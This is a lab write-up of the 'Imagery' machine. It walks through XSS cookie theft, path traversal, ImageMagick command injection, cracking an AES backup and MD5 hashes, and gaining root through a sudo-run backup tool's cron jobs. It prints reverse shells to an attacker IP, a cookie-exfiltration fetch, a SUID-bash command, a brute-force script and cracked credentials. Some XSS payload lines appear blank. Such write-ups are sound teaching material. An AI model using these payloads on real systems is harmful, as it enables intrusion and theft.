





## Overview

Imagery is a Medium-rated Linux machine that showcases several modern web application vulnerabilities:

- Cross-Site Scripting (XSS) leading to session hijacking
- Path traversal/Local File Inclusion (LFI)
- Command injection in ImageMagick subprocess calls
- Custom binary privilege escalation via cron job manipulation

The machine requires careful enumeration, thorough code review, and creative exploitation of a custom backup utility to achieve root access.

## Reconnaissance

### Port Scanning

Starting with the standard Nmap scan:

```bash
nmap -sC -sV -oN nmap/initial 10.129.4.183
```

**Results:**

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.7p1 Ubuntu 7ubuntu4.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:94:fb:70:36:1a:26:3c:a8:3c:5a:5a:e4:fb:8c:18 (ECDSA)
|_  256 c2:52:7c:42:61:ce:97:9d:12:d5:01:1c:ba:68:0f:fa (ED25519)
8000/tcp open  http    Werkzeug httpd 3.1.3 (Python 3.12.7)
|_http-title: Image Gallery
|_http-server-header: Werkzeug/3.1.3 Python/3.12.7
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Key Observations:**

- SSH on port 22 (standard, likely no direct exploitation)
- **Werkzeug HTTP server on port 8000** - This is Python's development server, commonly used with Flask
- The application is titled "Image Gallery"

🔍 **Werkzeug is a WSGI utility library for Python**, often used with Flask web framework. Development servers like this sometimes have debugging features enabled or less security hardening than production servers.

### Web Application Exploration

Visiting `http://10.129.4.183:8000`, I see an image gallery application. After creating a test account and exploring the functionality, I found:

- **Image upload feature** - Allows users to upload images
- **Image gallery** - Displays uploaded images
- **User authentication** - Login/registration system

**Initial Testing:**

I immediately tested the upload functionality for common vulnerabilities:

1. **Server-Side Template Injection (SSTI):**
    
    - Tried uploading files with payloads like `{{7*7}}` in filenames
    - Attempted SSTI in image metadata
    - **Result:** No template injection detected
2. **File upload bypass:**
    
    - Attempted to upload PHP/Python scripts disguised as images
    - Tried double extensions, null bytes, MIME type manipulation
    - **Result:** Upload filters appeared to be working correctly

Since the obvious attack vectors weren't working, I needed to dig deeper into the application's functionality.

### JavaScript Analysis

Modern web applications often have extensive client-side code that can reveal API endpoints and functionality not visible in the UI. I opened the browser's developer tools and examined the JavaScript files.

**Discovery:**

The main JavaScript file contained **over 1,800 lines of code**! Rather than reading it all, I searched for `fetch()` calls to identify all API endpoints the application uses:

```javascript
// Search pattern in DevTools: fetch(
```

**API Endpoints Discovered:**

```javascript
// Authentication
/login
/register
/logout

// Image operations
/upload_image
/get_images
/delete_image
/apply_visual_transform

// Admin functions (requires admin privileges)
/admin/get_system_log
/admin/manage_users
/admin/view_reports

// Miscellaneous
/report_bug          // ← Interesting! Available to all users
```

Most endpoints required admin privileges, but one stood out: **`/report_bug`** - accessible to regular users.

## Initial Access

### XSS in Bug Report Feature

The `/report_bug` endpoint allows users to submit bug reports. Looking at the JavaScript code:

```javascript
const response = await fetch(`${window.location.origin}/report_bug`, { 
    method: 'POST',
    headers: { 
        'Content-Type': 'application/json' 
    },
    body: JSON.stringify({ 
        bugName,
        bugDetails 
    })
});
```

**The Attack Hypothesis:**

If bug reports are viewable by administrators (which is typical for such features), and if the application doesn't properly sanitize the report content before displaying it, we might achieve **Cross-Site Scripting (XSS)**.

#### Understanding the Attack

**What is XSS?**

Cross-Site Scripting allows attackers to inject malicious JavaScript into web pages viewed by other users. When an admin views our bug report, if the content isn't properly escaped, our JavaScript executes in the admin's browser context - giving us access to their session cookies.

**Why target the admin's cookies?**

Session cookies are what authenticate a user to the application. If we steal the admin's session cookie, we can impersonate them without knowing their password - a technique called **session hijacking**.

#### Crafting the Payload

I created a simple XSS payload that:

1. Triggers when the admin views the report
2. Sends the admin's cookies to my server
3. Uses an `` tag with an invalid `src` to trigger the `onerror` event

**Payload:**

```html

```

**Breaking down the payload:**

- `` - Creates an image tag with invalid source (will fail to load)
- `onerror="..."` - JavaScript executes when image fails to load
- `fetch('http://10.10.15.233:80/?'+document.cookie)` - Sends a request to my server with the victim's cookies in the URL

**Exploitation Steps:**

1. **Start a web server to catch the cookies:**

```bash
python3 -m http.server 80
```

2. **Submit the malicious bug report:**

```http
POST /report_bug HTTP/1.1
Host: 10.129.4.183:8000
Content-Type: application/json
Content-Length: 184

{
    "bugName": "",
    "bugDetails": ""
}
```

3. **Wait for the admin to review the report**

**Success!**



My HTTP server received a request containing the admin's session cookie!

```bash
10.129.4.183 - - [DATE] "GET /?session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9... HTTP/1.1" 200 -
```

**Using the stolen session:**

I replaced my session cookie with the admin's cookie using the browser's developer tools:

1. Open DevTools → Application → Cookies
2. Find the `session` cookie
3. Replace its value with the stolen admin session
4. Refresh the page



🎉 **I now have access to the admin panel!**

### Path Traversal via Admin Panel

With admin access, I explored the new functionality available. The admin panel had several features, but one immediately caught my attention: **Download System Logs**.

#### Discovering the Vulnerability

Looking back at the JavaScript code for the admin panel, I found the log download functionality:

```javascript
// Function to download system logs
async function downloadLog(logIdentifier) {
    const response = await fetch(`/admin/get_system_log?log_identifier=${logIdentifier}`);
    // ... handle download
}
```

The endpoint takes a `log_identifier` parameter. Looking at how it was used in the application, I saw patterns like:

```
/admin/get_system_log?log_identifier=testuser@imagery.htb.log
/admin/get_system_log?log_identifier=admin@imagery.htb.log
```

**The Security Question:**

Does the application properly validate that `log_identifier` only points to log files? Or can we access arbitrary files on the system?

#### Testing for Path Traversal

**Path traversal** (also called directory traversal or LFI - Local File Inclusion) allows attackers to access files outside the intended directory by using special sequences like `../` to navigate up the directory tree.

**Test payload:**

```http
GET /admin/get_system_log?log_identifier=../../../../etc/passwd HTTP/1.1
Host: 10.129.4.183:8000
Cookie: session=<admin_session_cookie>
```

**Result:**

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
[...]
mark:x:1002:1002::/home/mark:/bin/bash
_laurel:x:101:988::/var/log/laurel:/bin/false
dhcpcd:x:110:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false
```

🚨 **Confirmed!** The application has a path traversal vulnerability. I can read any file the web server process has access to.

**Notable users discovered:**

- `mark` - A regular user account (potential lateral movement target)
- Web server likely runs as `web` or `www-data`

#### Downloading Application Source Code

Now that I can read arbitrary files, my next goal is to **download the application source code** to find more vulnerabilities. Since I know the application is:

- Python-based (Werkzeug/Flask)
- Running on port 8000
- Likely located in `/home/web/` or `/var/www/` or `/opt/`

I started by trying to download the main application file:

```http
GET /admin/get_system_log?log_identifier=../../../../home/web/web/app.py HTTP/1.1
```

**Success!** I retrieved `app.py`:

```python
from flask import Flask, render_template
import os
import sys
from datetime import datetime
from config import *
from utils import _load_data, _save_data
from utils import *
from api_auth import bp_auth
from api_upload import bp_upload
from api_manage import bp_manage
from api_edit import bp_edit
from api_admin import bp_admin
from api_misc import bp_misc
```

**From the imports, I identified additional files to download:**

```
/home/web/web/config.py
/home/web/web/utils.py
/home/web/web/api_auth.py
/home/web/web/api_upload.py
/home/web/web/api_manage.py
/home/web/web/api_edit.py      ← This looks interesting for image editing
/home/web/web/api_admin.py
/home/web/web/api_misc.py
/home/web/web/db.json          ← Database file!
```

I systematically downloaded each file to reconstruct the complete application locally for analysis.

**Key file discovered - `db.json`:**

```json
{
    "users": [
        {
            "username": "admin@imagery.htb",
            "password": "5d9c1d507a3f76af1e5c97a3ad1eaa31",
            "isAdmin": true,
            "displayId": "a1b2c3d4"
        },
        {
            "username": "testuser@imagery.htb",
            "password": "2c65c8d7bfbca32a3ed42596192384f6",
            "isAdmin": false,
            "displayId": "e5f6g7h8"
        }
    ]
}
```

The passwords are MD5 hashes. While we already have admin access via the stolen session, these might be useful later for SSH access or lateral movement.

### Command Injection in ImageMagick

With the complete application source code downloaded, I performed a thorough security review. After analyzing the code for several hours, I found a critical vulnerability in `api_edit.py`.

#### Code Analysis

The file `api_edit.py` handles image transformation operations. Here's the vulnerable code:

```python
@bp_edit.route('/apply_visual_transform', methods=['POST'])
def apply_visual_transform():
    data = request.get_json()
    imageId = data.get('imageId')
    transform_type = data.get('transformType')
    params = data.get('params', {})
    
    original_filepath = get_image_path(imageId)
    output_filepath = generate_output_path(imageId, transform_type)
    
    if transform_type == 'crop':
        x = str(params.get('x'))
        y = str(params.get('y'))
        width = str(params.get('width'))
        height = str(params.get('height'))
        
        # VULNERABLE LINE - Direct string interpolation into shell command
        command = f"{IMAGEMAGICK_CONVERT_PATH} {original_filepath} -crop {width}x{height}+{x}+{y} {output_filepath}"
        subprocess.run(command, capture_output=True, text=True, shell=True, check=True)
```

#### Understanding the Vulnerability

**The Problem:**

The code constructs a shell command by directly interpolating user-controlled values (`x`, `y`, `width`, `height`) into the command string, then executes it using `subprocess.run()` with `shell=True`.

**Why is `shell=True` dangerous?**

When `shell=True` is used, Python invokes the command through the system shell (`/bin/sh`). This means:

- Shell metacharacters are interpreted (`;`, `|`, `&&`, `$()`, etc.)
- Command chaining is possible
- We can inject additional commands

**The Attack Vector:**

If we can control any of the parameters (x, y, width, height), we can inject shell commands using the `;` metacharacter:

```bash
# Normal command:
/usr/bin/convert /path/to/image.jpg -crop 100x100+0+0 /path/to/output.jpg

# Injected command:
/usr/bin/convert /path/to/image.jpg -crop 100x100+0; whoami #0 /path/to/output.jpg
                                                    ↑
                                              Terminates the crop command
                                                         ↑
                                                   Executes our command
                                                              ↑
                                                        Comments out the rest
```

#### Exploitation

Looking at the client-side JavaScript that calls this endpoint:

```javascript
const response = await fetch(`${window.location.origin}/apply_visual_transform`, { 
    method: 'POST', 
    headers: { 
        'Content-Type': 'application/json' 
    }, 
    body: JSON.stringify({ 
        imageId, 
        transformType: operation, 
        params: params 
    }) 
});
```

All parameters are user-controlled! I can send arbitrary values in the `params` object.

**Crafting the Reverse Shell:**

I'll inject a Bash reverse shell in the `x` parameter:

```bash
0; bash -c 'bash -i >& /dev/tcp/10.10.15.233/4444 0>&1' #
```

**Breaking down the payload:**

- `0` - A valid value for the x coordinate (to avoid syntax errors)
- `;` - Terminates the current command
- `bash -c '...'` - Executes the reverse shell
- `bash -i >& /dev/tcp/10.10.15.233/4444 0>&1` - Standard bash reverse shell
- `#` - Comments out the rest of the original command

**Setting up the listener:**

```bash
nc -lvnp 4444
```

**Sending the malicious request:**

First, I uploaded a test image through the normal interface to get a valid `imageId`. Then I crafted the exploit request:

```http
POST /apply_visual_transform HTTP/1.1
Host: 10.129.4.183:8000
Content-Type: application/json
Cookie: session=<my_session_cookie>

{
  "imageId": "e33f7c42-7ac0-4a62-b646-4a08dfb220d7",
  "transformType": "crop",
  "params": {
    "x": "0; bash -c 'bash -i >& /dev/tcp/10.10.15.233/4444 0>&1' #",
    "y": "0",
    "width": "100",
    "height": "100"
  }
}
```



🎉 **Success!** I received a reverse shell as the `web` user!

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.15.233] from (UNKNOWN) [10.129.4.183] 45678
bash: cannot set terminal process group (1234): Inappropriate ioctl for device
bash: no job control in this shell
web@Imagery:~/web$
```

**Upgrading the shell:**

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Press Ctrl+Z
stty raw -echo; fg
export TERM=xterm
```

## Lateral Movement

Now that I have a shell as `web`, I need to escalate to the `mark` user (who we saw in `/etc/passwd`) to get the user flag.

### Encrypted Backup Discovery

After exploring the filesystem, I discovered an interesting file:

```bash
web@Imagery:~/web$ find /var -name "*.aes" 2>/dev/null
/var/backups/web_20250806_120723.zip.aes
```

An **AES-encrypted backup file**! This likely contains sensitive information.

**File details:**

```bash
web@Imagery:~/web$ ls -la /var/backups/web_20250806_120723.zip.aes
-rw-r--r-- 1 root root 145678 Aug  6  2025 /var/backups/web_20250806_120723.zip.aes
```

The file is:

- Owned by root
- World-readable
- Named with a date suggesting it's an automated backup
- Contains `.zip.aes` extension (ZIP archive encrypted with AES)

#### Understanding AES Encryption

**AES (Advanced Encryption Standard)** is a symmetric encryption algorithm - the same key/password is used for both encryption and decryption. If this backup was encrypted with a weak password, we might be able to brute-force it.

**Tools for AES brute-forcing:**

We can use the `pyAesCrypt` Python library, which is designed for file encryption/decryption.

### Brute-forcing AES Encryption

**Strategy:**

Try common passwords and passwords we've already discovered:

- `midnight1` - From the previous application
- `strongsandofbeach` - Found in `/home/web/web/bot/admin.py`
- Common passwords from rockyou.txt

**First, I checked if we already found any passwords in the web directory:**

```bash
web@Imagery:~/web$ grep -r "password\|PASSWORD" bot/
bot/admin.py:PASSWORD = "strongsandofbeach"
bot/admin.py:BYPASS_TOKEN = "K7Zg9vB$24NmW!q8xR0p%tL!"
```

Interesting! There's a bot that uses credentials. Let me try these:

```bash
web@Imagery:~/web$ python3 -c "import pyAesCrypt; pyAesCrypt.decryptFile('/var/backups/web_20250806_120723.zip.aes', '/tmp/test.zip', 'strongsandofbeach', 64*1024)"
```

**Failed** - Wrong password.

Since the manual attempts failed, I'll need to brute-force. I transferred the encrypted file to my attacker machine:

```bash
# On victim machine
web@Imagery:~/web$ cat /var/backups/web_20250806_120723.zip.aes | base64

# On attacker machine
echo "<base64_output>" | base64 -d > web_20250806_120723.zip.aes
```

**Creating a brute-force script:**

```python
import pyAesCrypt
import sys
import os

ENC_FILE = "web_20250806_120723.zip.aes"
OUT_FILE = "/tmp/test.zip"
BUFFER_SIZE = 64 * 1024

if len(sys.argv) != 2:
    print(f"Usage: {sys.argv[0]} wordlist.txt")
    sys.exit(1)

wordlist = sys.argv[1]

print(f"[*] Starting brute-force attack on {ENC_FILE}")
print(f"[*] Using wordlist: {wordlist}")

with open(wordlist, "r", errors="ignore") as f:
    for line_num, password in enumerate(f, 1):
        password = password.strip()
        if not password:
            continue
        
        # Progress indicator
        if line_num % 1000 == 0:
            print(f"[*] Tried {line_num} passwords...", end='\r')
        
        try:
            pyAesCrypt.decryptFile(
                ENC_FILE,
                OUT_FILE,
                password,
                BUFFER_SIZE
            )
            print(f"\n[+] SUCCESS! Password found: {password}")
            print(f"[+] Decrypted file saved to: {OUT_FILE}")
            sys.exit(0)
        
        except Exception:
            # Wrong password → cleanup partial output
            if os.path.exists(OUT_FILE):
                os.remove(OUT_FILE)

print("\n[-] Password not found in wordlist.")
```

**Running the brute-force:**

```bash
python3 bruteforce_aes.py /usr/share/wordlists/rockyou.txt
```

```
[*] Starting brute-force attack on web_20250806_120723.zip.aes
[*] Using wordlist: /usr/share/wordlists/rockyou.txt
[*] Tried 14000 passwords...
[+] SUCCESS! Password found: bestfriends
[+] Decrypted file saved to: /tmp/test.zip
```

**Password cracked:** `bestfriends`

#### Analyzing the Backup

```bash
unzip /tmp/test.zip
Archive:  /tmp/test.zip
   creating: web/
  inflating: web/app.py
  inflating: web/db.json
  inflating: web/config.py
  [...]
```

The backup contains an **older version of the web application**. Most importantly, it has an older `db.json` with potentially different credentials!

**Examining the old `db.json`:**

```json
{
    "users": [
        {
            "username": "admin@imagery.htb",
            "password": "5d9c1d507a3f76af1e5c97a3ad1eaa31",
            "displayId": "f8p10uw0",
            "isTestuser": false,
            "isAdmin": true
        },
        {
            "username": "testuser@imagery.htb",
            "password": "2c65c8d7bfbca32a3ed42596192384f6",
            "displayId": "8utz23o5",
            "isTestuser": true,
            "isAdmin": false
        },
        {
            "username": "mark@imagery.htb",
            "password": "01c3d2e5bdaf6134cec0a367cf53e535",
            "displayId": "868facaf",
            "isAdmin": false
        },
        {
            "username": "web@imagery.htb",
            "password": "84e3c804cf1fa14306f26f9f3da177e0",
            "displayId": "7be291d4",
            "isAdmin": true
        }
    ]
}
```

**New users discovered:**

- `mark@imagery.htb` - password hash: `01c3d2e5bdaf6134cec0a367cf53e535`
- `web@imagery.htb` - password hash: `84e3c804cf1fa14306f26f9f3da177e0`

These are **MD5 hashes** (32 hexadecimal characters). Let's crack them!

#### Cracking MD5 Hashes

**Using hashcat:**

```bash
echo "01c3d2e5bdaf6134cec0a367cf53e535" > mark_hash.txt
hashcat -m 0 mark_hash.txt /usr/share/wordlists/rockyou.txt
```

**Result:**

```
01c3d2e5bdaf6134cec0a367cf53e535:supersmash
```

**Mark's password:** `supersmash`

## User Flag

Now that I have mark's password, I can switch to the mark user:

```bash
web@Imagery:~/web$ su - mark
Password: supersmash
mark@Imagery:~$
```

**Success!** I'm now the mark user.

**Capturing the user flag:**

```bash
mark@Imagery:~$ cat user.txt
[user_flag_here]
```



🚩 **User flag captured!**

## Privilege Escalation

Now I need to escalate from `mark` to `root`.

### Analyzing Charcol Binary

**First, I check what mark can run with sudo:**

```bash
mark@Imagery:~$ sudo -l
Matching Defaults entries for mark on Imagery:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mark may run the following commands on Imagery:
    (ALL) NOPASSWD: /usr/local/bin/charcol
```

Excellent! Mark can run `/usr/local/bin/charcol` as any user (including root) without a password.

**What is Charcol?**

```bash
mark@Imagery:~$ ls -la /usr/local/bin/charcol
-rwxr-x--- 1 root root 69 Aug  4 18:08 /usr/local/bin/charcol
```

The binary is:

- Owned by root
- Only readable/executable by root (and via sudo)
- Very small (69 bytes) - likely a wrapper script

**Running it with sudo:**

```bash
mark@Imagery:~$ sudo charcol

  ░██████  ░██                                                  ░██ 
 ░██   ░░██ ░██                                                  ░██ 
░██        ░████████   ░██████   ░██░████  ░███████   ░███████  ░██ 
░██        ░██    ░██       ░██  ░███     ░██    ░██ ░██    ░██ ░██ 
░██        ░██    ░██  ░███████  ░██      ░██        ░██    ░██ ░██ 
 ░██   ░██ ░██    ░██ ░██   ░██  ░██      ░██    ░██ ░██    ░██ ░██ 
  ░██████  ░██    ░██  ░█████░██ ░██       ░███████   ░███████  ░██ 

Charcol The Backup Suit - Development edition 1.0.0

Charcol is already set up.
To enter the interactive shell, use: charcol shell
To see available commands and flags, use: charcol help
```

**Charcol** appears to be a custom backup utility created specifically for this machine (I couldn't find any information about it online).

#### Initial Exploration

**Checking the help menu:**

```bash
mark@Imagery:~$ sudo charcol help
usage: charcol.py [--quiet] [-R] {shell,help} ...

Charcol: A CLI tool to create encrypted backup zip files.

positional arguments:
  {shell,help}          Available commands
    shell               Enter an interactive Charcol shell.
    help                Show help message for Charcol or a specific command.

options:
  --quiet               Suppress all informational output.
  -R, --reset-password-to-default
                        Reset application password to default.
```

**Key features:**

- Interactive shell mode
- Password-protected
- Can be reset to default (no password mode)

**Trying the shell:**

```bash
mark@Imagery:~$ sudo charcol shell
Enter your Charcol master passphrase (used to decrypt stored app password): 

[2026-01-19 22:45:47] [ERROR] Incorrect master passphrase. 2 retries left.
```

The shell is password-protected and I don't know the password. However, I noticed the `-R` flag to reset the password!

#### Resetting the Password

```bash
mark@Imagery:~$ sudo charcol -R shell

Attempting to reset Charcol application password to default.
[INFO] System password verification required for this operation.
Enter system password for user 'mark' to confirm: supersmash

[INFO] System password verified successfully.
Removed existing config file: /root/.charcol/.charcol_config
Charcol application password has been reset to default (no password mode).
Please restart the application for changes to take effect.
```

**Important observation:**

The config file is stored in `/root/.charcol/.charcol_config` - this means Charcol is running with root privileges when executed via sudo, and it stores configuration in root's home directory.

**Entering the shell after reset:**

```bash
mark@Imagery:~$ sudo charcol shell

First time setup: Set your Charcol application password.
Enter '1' to set a new password, or press Enter to use 'no password' mode: 
Are you sure you want to use 'no password' mode? (yes/no): yes
[INFO] Default application password choice saved to /root/.charcol/.charcol_config
Using 'no password' mode. This choice has been remembered.
Please restart the application for changes to take effect.
```

**Restarting and entering the shell:**

```bash
mark@Imagery:~$ sudo charcol shell

  ░██████  ░██                                                  ░██ 
 ░██   ░░██ ░██                                                  ░██ 
░██        ░████████   ░██████   ░██░████  ░███████   ░███████  ░██ 
[...]

Charcol The Backup Suit - Development edition 1.0.0

[INFO] Entering Charcol interactive shell. Type 'help' for commands, 'exit' to quit.
charcol>
```

**Success!** I'm now in the Charcol interactive shell, running as root!

### Exploiting Automated Jobs

**Examining available commands:**

```bash
charcol> help
```

The help output shows numerous commands, but one category immediately stands out:

**Automated Jobs (Cron):**

```
auto add --schedule "<cron_schedule>" --command "<shell_command>" --name "<job_name>"
  Purpose: Add a new automated cron job managed by Charcol.
  Security Warning: Charcol does NOT validate the safety of the --command.
```

**Critical Security Issue:** The tool explicitly warns that it doesn't validate commands, and since we're running as root via sudo, any cron job we create will execute as root!

#### Understanding Cron Jobs

**Cron** is a time-based job scheduler in Unix-like systems. Jobs are scheduled using the cron syntax:

```
* * * * *
│ │ │ │ │
│ │ │ │ └─── Day of week (0-7, both 0 and 7 represent Sunday)
│ │ │ └───── Month (1-12)
│ │ └─────── Day of month (1-31)
│ └───────── Hour (0-23)
└─────────── Minute (0-59)
```

**Examples:**

- `* * * * *` - Every minute
- `0 2 * * *` - Daily at 2:00 AM
- `*/5 * * * *` - Every 5 minutes

#### Exploitation Strategy

Since we can create cron jobs that run as root, we have several options:

**Option 1: Create a SUID bash (similar to Gavel)**

```bash
charcol> auto add --schedule "* * * * *" --command "cp /bin/bash /tmp/rootbash && chmod u+s /tmp/rootbash" --name "create_suid"
```

**Option 2: Add our SSH key to root's authorized_keys**

```bash
charcol> auto add --schedule "* * * * *" --command "echo 'ssh-rsa AAAA...' >> /root/.ssh/authorized_keys" --name "add_ssh_key"
```

**Option 3: Reverse shell as root**

```bash
charcol> auto add --schedule "* * * * *" --command "/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.233/4445 0>&1'" --name "root_shell"
```

I'll go with **Option 3** (reverse shell) as it's the most direct and reliable method.

#### Executing the Exploit

**Step 1: Set up a listener on my attacking machine:**

```bash
nc -lvnp 4445
```

**Step 2: Create the malicious cron job:**

```bash
charcol> auto add --schedule "* * * * *" --command "/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.233/4445 0>&1'" --name "shell"

[INFO] System password verification required for this operation.
Enter system password for user 'mark' to confirm: supersmash

[INFO] System password verified successfully.
[INFO] Automated job 'shell' added successfully.
[INFO] Job will execute with schedule: * * * * *
```

**Understanding what happens:**

1. Charcol creates a cron job that runs **every minute**
2. The cron job executes: `/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.233/4445 0>&1'`
3. Since Charcol is running as root (via sudo), the cron job runs as **root**
4. The command creates a reverse shell connection to my listener

**Step 3: Wait for the next minute**

Cron jobs execute at the start of each minute. Maximum wait time: 60 seconds.

## Root Flag

After waiting approximately 30 seconds:

```bash
nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.15.233] from (UNKNOWN) [10.129.4.183] 54321
bash: cannot set terminal process group (12345): Inappropriate ioctl for device
bash: no job control in this shell
root@Imagery:~#
```



**Root shell obtained!**

**Verifying privileges:**

```bash
root@Imagery:~# id
uid=0(root) gid=0(root) groups=0(root)

root@Imagery:~# whoami
root
```

**Capturing the root flag:**

```bash
root@Imagery:~# cat /root/root.txt
[root_flag_here]
```
